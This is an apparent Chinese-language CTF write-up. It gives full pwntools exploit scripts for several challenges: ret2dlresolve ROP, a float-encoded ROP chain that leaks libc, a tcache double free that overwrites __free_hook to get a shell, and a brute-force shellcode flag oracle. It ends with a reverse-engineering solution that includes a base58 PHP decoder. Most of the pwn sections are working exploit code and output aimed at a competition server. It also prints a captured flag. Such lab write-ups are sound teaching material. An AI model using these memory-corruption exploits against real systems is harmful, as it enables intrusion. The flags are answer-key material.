1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 from roputils import * from pwn import process from pwn import gdb from pwn import context from pwn import remote #r = process('./pwn3') r = remote("47.110.227.208",10003) context.log_level = 'debug' rop = ROP('./pwn3') offset = 60 bss_base = 0x804a000 + 0x800 buf = rop.fill(offset) buf += rop.call('read', 0, bss_base, 100) buf += rop.dl_resolve_call(bss_base + 20, bss_base) r.send(buf) buf = rop.string('/bin/sh') buf += rop.fill(20, buf) buf += rop.dl_resolve_data(bss_base + 20, 'system') buf += rop.fill(100, buf) r.send(buf) r.interactive()
floatpwn 这题考察了确定浮点寄存器通过movss写入内存时的数值
方法：只能人工二分法一次一次去尝试，然后发现小数点后45位之前可以忽略不计，真正开始有意义的数值在小数点后45位开始。然后求出对应的n使得写回内存时是我想要的数值，从而构造ROP链。但是想构造ROP链之前需要实现无限写，所以输入size时，可以考虑输入负数，实现无符号整数溢出，从而无限写。因为控制写入数据位置的i变量位于栈空间底部，所以要使得写到i里的数据为10到12即可，因为可以考虑直接略过ebp，直接修改rip。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 from pwn import * context.log_level = "debug" context.arch = "amd64" elf = ELF("pwn2") sh = 0 lib = 0 def inputFloat(num): sh.recv() sh.send(num) sh.recv() sh.sendline() def inputRop(num): num = str(num) num = num.rjust(45,"0") num = num.ljust(0x62,"0") inputFloat("0." + num) inputFloat("0") def pwn(ip,port,debug): global sh global lib if(debug == 1): sh = process("./pwn2") lib = ELF("/lib/x86_64-linux-gnu/libc.so.6") else: sh = remote(ip,port) lib = ELF("libc6_2.27-3ubuntu1_amd64.so") #puts 5879714 0x400640 #pop_rdi 5881041 0x4009f3 #__libc_start_main_got 8822026 0x601038 #main 5880847 0x400969 #start 5879938 0x4006E0 #call vul 5880867 0x400977 #vul 5880653 0x4008DE #read 5879781 0x400670 #pop_rsi_r15_ret 5881038 0x4009f1 #read_got 8822014 0x601030 #binsh 8822106 0x601071 sh.recv() sh.sendline("-1.9999") for i in range(0,13): inputFloat("111") inputFloat("13") inputFloat("13") inputFloat("0." + "0" * 43 + "23")#0x11 inputFloat("0." + "0" * 43 + "23")#fake #rip = 0x4009f3 #pop_rdi_ret inputRop(5881041) #__libc_start_main got inputRop(8822026) #puts_plt inputRop(5879714) #pop_rdi_ret inputRop(5881041) inputRop(0) #pop_rsi_r15_ret inputRop(5881038) inputRop(8822106) inputRop(0) #read_plt inputRop(5879781) #pop_rdi_ret inputRop(5881041) inputRop(0) #pop_rsi_r15_ret inputRop(5881038) inputRop(8822014) inputRop(0) #read_plt inputRop(5879781) #pop_rdi_ret inputRop(5881041) inputRop(8822106) #read_plt inputRop(5879781) #input() sh.recvuntil("plz input your float:") sh.sendline("0") sh.recvuntil("do you want to continue?(y/n)") sh.send("n") __libc_start_main = u64(sh.recvuntil("\x7f")[-6:].ljust(8,"\x00")) libc = __libc_start_main - lib.symbols['__libc_start_main'] system = libc + lib.symbols['system'] binsh = libc + lib.search("/bin/sh\x00").next() sh.sendline("/bin/sh\x00") sleep(0.2) sh.sendline(p64(system)) log.success("__libc_start_main: " + hex(__libc_start_main)) log.success("system: " + hex(system)) log.success("binsh: " + hex(binsh)) log.success("libc: " + hex(libc)) sh.interactive() if __name__ == "__main__": pwn("47.110.227.208",10002,0)

Babytcache 1 checksec 可以看到程序没有开PIE,同时bss中存放了_IO_2_1_stdout_的地址,并且libc2.27有double free,所以思路就很明确了.有了double free就可以malloc 2 everywhere,所以这样一的难点在于如何leak libc,通过double free,可以让fd指向_IO_2_1_stdout_,从而malloc 2 _IO_2_1_stdout_,从而修改write_base来leak libc,之后再double free去修改free_hook为system,去free一个/bin/sh就可以了
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 from pwn import * libc=ELF('./libc.so') sh=remote("47.110.227.208",10006) # CyCTF{Tc4ch3_Att4ck_Is_S1mpl3_R1ght?} def add(size,content): sh.sendline('1') sh.recvuntil('input your size:') sh.sendline(str(size)) sh.recvuntil('input your message:') sh.send(content) sh.recvuntil('Done!\n') def add2(size,content): sh.sendline('1') sh.recvuntil('input your size:') sh.sendline(str(size)) sh.recvuntil('input your message:') sh.send(content) #sh.recvuntil('Done!\n') def delete(index): sh.sendline('2') sh.recvuntil('input the index: ') sh.sendline(str(index)) def main(): add(0x100,'a\n') add(0x100,'a\n') add(0x100,'a\n') delete(0) delete(0) add(0x100,p64(0x0000000000602020)+'\n') add(0x100,p64(0x0000000000602020)+'\n') add(0x100,'\n') add2(0x100,p64(0xfbad1880)+p64(0x0)*3+'\x20\n') libc_base=u64(sh.recv(6)+'\x00\x00')-0x3eb780 print "libc_base -> " + hex(libc_base) free_hook=libc_base+libc.symbols['__free_hook'] system=libc_base+libc.symbols['system'] sh.recvuntil('Done!\n') add(0x10,'/bin/sh\x00\n') # index 7 add(0x20,'\n') # index 8 delete(8) delete(8) add(0x20,p64(free_hook)+'\n') add(0x20,p64(free_hook)+'\n') add(0x20,p64(system)+'\n') delete(7) sh.interactive() if __name__ == '__main__': main()

codepwn 通过逆向可以发现程序将flag存入了内存中,并且我们可以选择flag对应的下标进行对比,可是4字节的shellcode有着限制,并且v5是call shellcode之后的返回值,那么就必须在shellcode中对rax进行赋值操作,可以观察到r9寄存器的大小是跟printf出来的字节数相关,那么就可以通过push r9,pop rax,ret,三个操作来对rax赋值,进而根据程序最后的判断来确认我们猜测的flag对应下标的那个字母是否正确,接下来就是爆破就完事了
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 from pwn import * context.log_level='CRITICAL' #context.log_level = 'debug' def flag_index(index): sh.sendline(str(index)) def code(code): sh.send(code) def name(size,content): sh.recvuntil('tell me your name size:\n') sh.sendline(str(size)) sh.recvuntil('input your name:\n') sh.sendline(content) flag=open('./pwn4_flag','a+') try: for index in range(32): for i in range(0x1,0x7f): sh=remote('47.110.227.208',10004) #sh=process('./pwn4') sh.recvuntil('this is my gift for you, take it!\n') flag_index(index) sh.recvuntil('input your code:\n') code('AQX\xC3') padding='a'.ljust(i,'a') name(0x100,padding) sh.recvuntil('Hello are you ready? '+padding+'\n') sh.sendline() info = sh.recv() if((info).find('bye!') != -1): print chr(i+0x16) flag.write(chr(i+0x16)) sh.close() break else: sh.close() except KeyboardInterrupt: flag.close() exit(0) except: flag.close() sh.close()
RE Secret （emmm这一题偷懒了），
首先分析主函数
里面有两个check函数。进入checktime（）函数，关键代码是这里，
1 2 3 4 5 6 7 8 9 10 *(&v5 + i) = rand(); if ( 14766 * v11 + 18242 * v10 + 4657 * v9 + 22453 * v8 + 7236 * v7 + 28554 * v6 + 25606 * v5 + 12289 * v12 == 12977737 && 27429 * v11 + 8015 * v10 + 16511 * v9 + 17180 * v8 + 27141 * v7 + 31813 * v6 + 7412 * v5 + 18249 * v12 == 15081473 && 2846 * v11 + 28353 * v10 + 19864 * v9 + 27377 * v8 + 9006 * v7 + 13657 * v6 + 19099 * v5 + 25835 * v12 == 13554960 && 1078 * v11 + 5007 * v10 + 6568 * v9 + 23034 * v8 + 10150 * v7 + 22949 * v6 + 32646 * v5 + 15255 * v12 == 11284005 && 8010 * v11 + 15430 * v10 + 6657 * v9 + 1009 * v8 + 25691 * v7 + 15960 * v6 + 19493 * v5 + 29491 * v12 == 10759932 && 4605 * v11 + 14468 * v10 + 5017 * v9 + 12805 * v8 + 22973 * v7 + 30584 * v6 + 12620 * v5 + 32085 * v12 == 12085266 && 7478 * v11 + 6524 * v10 + 25994 * v9 + 16215 * v8 + 12864 * v7 + 20574 * v6 + 8882 * v5 + 14794 * v12 == 11323393 && 15263 * v11 + 8821 * v10 + 25489 * v9 + 9598 * v8 + 26847 * v7 + 5175 * v6 + 6515 * v5 + 27411 * v12 == 11677607 ) {
一共8位字符，猜测前5位为flag{ 然后解个方程（也可以直接遍历后三个字符的所有可能，找到符合判断条件的）
得到 flag{Th3
然后来到关键的check函数，看到这里，
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 while ( 1 ) { for ( j = 0; !v12[j]; ++j ) ; if ( j >= v11 ) break; v9 = 0; while ( j < v11 ) { v1 = (v9 << 8) + v12[j]; v12[j] = v1 / 58; v9 = v1 % 58; ++j; } v2 = v5++; s[v2] = v9; }
再加上用来取值的table 123456789ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxy
意识到这是可能是个改变密码表的base58编码变形，于是偷懒，百度找了一个base58的编码解码脚本，改变密码表，
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 <?php $encode = "fQcoNZxMvNxAVW7UJh5vQNyyuaphLAGo8g"; echo "\n".$encode; $decode = base58_decode($encode); echo "\n".$decode; function base58_encode($string) { $alphabet = '123456789abcdefghijkmnopqrstuvwxyzABCDEFGHJKLMNPQRSTUVWXYZ'; $base = strlen($alphabet); if (is_string($string) === false || !strlen($string)) { return false; } $bytes = array_values(unpack('C*', $string)); $decimal = $bytes[0]; for ($i = 1, $l = count($bytes); $i < $l; ++$i) { $decimal = bcmul($decimal, 256); $decimal = bcadd($decimal, $bytes[$i]); } $output = ''; while ($decimal >= $base) { $div = bcdiv($decimal, $base, 0); $mod = bcmod($decimal, $base); $output .= $alphabet[$mod]; $decimal = $div; } if ($decimal > 0) { $output .= $alphabet[$decimal]; } $output = strrev($output); return (string) $output; } function base58_decode($base58) { $alphabet = '123456789ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxyz'; $base = strlen($alphabet); if (is_string($base58) === false || !strlen($base58)) { return false; } $indexes = array_flip(str_split($alphabet)); $chars = str_split($base58); foreach ($chars as $char) { if (isset($indexes[$char]) === false) { return false; } } $decimal = $indexes[$chars[0]]; for ($i = 1, $l = count($chars); $i < $l; ++$i) { $decimal = bcmul($decimal, $base); $decimal = bcadd($decimal, $indexes[$chars[$i]]); } $output = ''; while ($decimal > 0) { $byte = bcmod($decimal, 256); $output = pack('C', $byte).$output; $decimal = bcdiv($decimal, 256, 0); } return $output; }
解码得到
_sEcond_Be5t_Time_1s_n0w}
flag到手
后来发现，拿这程序去运行，只要flag的后面一半，也能过，所以一开始其实是忽略了这个check time（）函数。。。